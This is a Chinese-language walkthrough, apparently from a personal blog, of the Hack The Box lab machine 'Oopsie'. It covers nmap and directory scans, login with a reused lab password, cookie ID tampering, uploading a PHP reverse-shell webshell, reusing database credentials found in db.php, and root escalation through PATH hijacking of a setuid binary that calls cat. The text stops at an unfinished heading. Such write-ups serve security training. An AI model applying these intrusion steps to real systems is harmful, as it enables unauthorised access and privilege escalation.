





## Oopsie
鸽了这么久。。。总算回来更 htb 笔记了，这次的是 starting point 的第二个环境 Oopsie

## 正文

老规矩，上来先 nmap 一波
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 20:28 CST
Nmap scan report for 10.10.10.28 (10.10.10.28)
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/18%OT=22%CT=1%CU=34182%PV=Y%DS=2%DC=T%G=Y%TM=5EEB5E1
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   199.53 ms 10.10.14.1 (10.10.14.1)
2   199.81 ms 10.10.10.28 (10.10.10.28)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.00 seconds
```

开启了 22、80，两个端口，一般来说爆破 22 端口就不怎么现实了，所以尝试一下 80 的服务

80 的服务为一个站点，直接用 dirb 扫后台，并没有得到什么后台的路径，但是得到了一些引人注意的东西
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jun 18 20:30:16 2020
URL_BASE: http://10.10.10.28/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.28/ ----
==> DIRECTORY: http://10.10.10.28/css/                                                          
==> DIRECTORY: http://10.10.10.28/fonts/                                                        
==> DIRECTORY: http://10.10.10.28/images/                                                       
+ http://10.10.10.28/index.php (CODE:200|SIZE:10932)                                            
==> DIRECTORY: http://10.10.10.28/js/                                                           
+ http://10.10.10.28/server-status (CODE:403|SIZE:276)                                          
==> DIRECTORY: http://10.10.10.28/themes/                                                       
==> DIRECTORY: http://10.10.10.28/uploads/
```
站点存在上传路径，猜测是可以上传东西的，然后在 burp 的记录下，看到了访问主页的时候有一条另外的路径 


看到这个基本上可以知道后台路径是什么了，尝试登陆后台，由于 htb 的一开始入门的一堆环境里面某个环境的信息是跟下一个环境相关联的，所以上一个环境中获取到了一个密码 `MEGACORP_4dm1n!!` 可以在这里使用，使用 `admin MEGACORP_4dm1n!!` 登陆后台

登陆后台后发现存在上传功能，但是访问后发现


抓包可以看到访问内容为



cookie 中的 user 为一个数字，尝试爆破，由于环境爆破起来实在太不稳定。。。直接看 wp 里面的结果吧，到以后要想办法解决一下这个情况了。

爆破出来的结果是 86575，用这个数字即可越权到管理员权限，进行文件上传

由于上传并没有进行任何的过滤，所以直接上传一个反弹 shell 的 php 马，获取反弹 shell

获得的 shell 的账号为 www-data，权限很低，但发现足以查看 user.txt 的内容，获取到第一个 flag

**这里有一点需要记住而且要变得印象深刻的，就是不要忘记翻找网站根目录附近的文件，里面很有可能记录这很多配置信息，而这些信息，很有可能是泄露的敏感信息**

在网站根目录的文件夹下，存在着 db.php 的数据库连接文件


可以看到数据库的连接账号信息，而在 `/etc/passwd` 里也可以看到存在一个叫 `robert` 的用户，尝试直接用这个信息 ssh 登录，成功

用 id 或者 groups 查看时，发现该用户还存在在另一个组里面
```
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
通过 find 命令寻找对应组的文件，看看有没有什么突破口
```
robert@oopsie:~$ find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker

robert@oopsie:~$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 10:14 /usr/bin/bugtracker

robert@oopsie:~$ file /usr/bin/bugtracker 
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```
看到有一个符合条件的 64 位可执行文件，文件拥有 s 权限，属于 root 用户，直接运行程序看看
```
robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 

```
有一说一，这个东西我没看懂是干嘛的，随便输入一些东西试试
```
robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: e
---------------

cat: /root/reports/e: No such file or directory

```
程序貌似是将用户输入的东西拼接上路径 `/root/reports`，然后调用 cat 进行输出，问题就出在 cat 上。

linux 的很多命令都是通过环境变量索引到对应的可执行文件执行的，这些环境变量可以通过 `echo $PATH` 来查看，而用户也可以自己更改这个环境变量，这里就存在一个问题，这个程序是属于 root 的，如果 cat 被恶意替换，即可完成一些操作

这里可以通过增加高优先级的环境变量，来导向恶意替换的文件，在 /tmp 路径下可以新建一个叫 cat 的文件，在里面输入 `/bin/bash`，然后把文件权限 `+x`，变成可执行（很重要），这个时候就会发现，当使用 cat 命令的时候，其实是调用了 bash 来开启了一个交互

所以用这个方式，可以在 `bugtracker` 文件执行 cat 的时候直接开启 shell，权限为 root

整体思路：
